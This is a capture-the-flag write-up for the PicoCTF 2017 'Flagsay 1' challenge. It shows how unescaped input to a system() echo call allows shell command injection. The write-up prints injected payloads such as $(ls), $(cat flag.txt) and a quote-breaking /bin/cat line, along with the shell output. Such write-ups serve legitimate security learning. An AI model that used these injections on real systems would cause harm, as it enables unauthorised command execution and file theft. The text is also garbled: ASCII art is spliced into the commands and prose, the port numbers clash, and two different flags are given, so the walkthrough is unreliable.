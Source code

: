 # PicoCTF_2017: Flagsay 1

**Category:** Binary
**Points:** 80
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1.c)! Source. Connect on shell2017.picoctf.com:51865.

**Hint:**

>System will run exactly what the program gives it

## Write-up
Another simple 1, looking at the source code reveals that whatever is inputted by the user is then `echo` by system.

    char commandBase[] = "/bin/echo \"%s\"\n";

Testing the program with random input,

	However, input is unescaped, so we can pass on a shell command like

    $ nc shell2017.picoctf.com 12442
	"aaa"
	51865
    $(ls)
                   _                                        
	                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	                 //aaa  flagsay-1
    flagsay-1_no_aslr
    flag.txt
    xinetd_wrapper.sh                              /     
	                //                                   /      
	               //                                   /       
	              //                                   /        
	             //                                   /         
	            //                                   /          
	           //___________________________________/           
	          //                                                
	         //                                                 
	    //                                                  
	   //                                                   
	  //                                                    
	 //                                                     

We can see that input gets inside of the flag.
However, input is unescaped, so we can pass on a shell command        //                                                  
       //                                                   
      //                                                    
     //

Then, we can do something like this

     $ nc shell2017.picoctf.com 12442
	aaaa"
	51865
    $(cat flag.txt)
                   _                                        
	                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	                 //aaaa /
	sh: 4: //: Permission denied
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

As seen above, `"` at the end of the input breaks the code. Also, we can see the shell in the second and the following lines.

Then, we can do something like this to break the first line with characters and the command for the second line, gives the flag

    $ nc shell2017.picoctf.com 12442
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"bin/cat flag.txt2ab2050bf32e84975a10d774a919e1d0                    /     
                //                                   /      
               //                                   /       
              //                                   /        
               _     //                                   
  /         
            //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/
	6116b5c621137949e3f70fd31f7cc29a
	//bin/cat: /: Is a directory
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

Therefore, the flag is `6116b5c621137949e3f70fd31f7cc29a                                   /          
           //___________________________________/           
          //                                                
         //                                                 
        //                                                  
       //                                                   
      //                                                    
     // 

Therefore, the flag is `2ab2050bf32e84975a10d774a919e1d0`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTM4NDU2MTYwMCw0NjUwNzcwNDNdfQ==
-->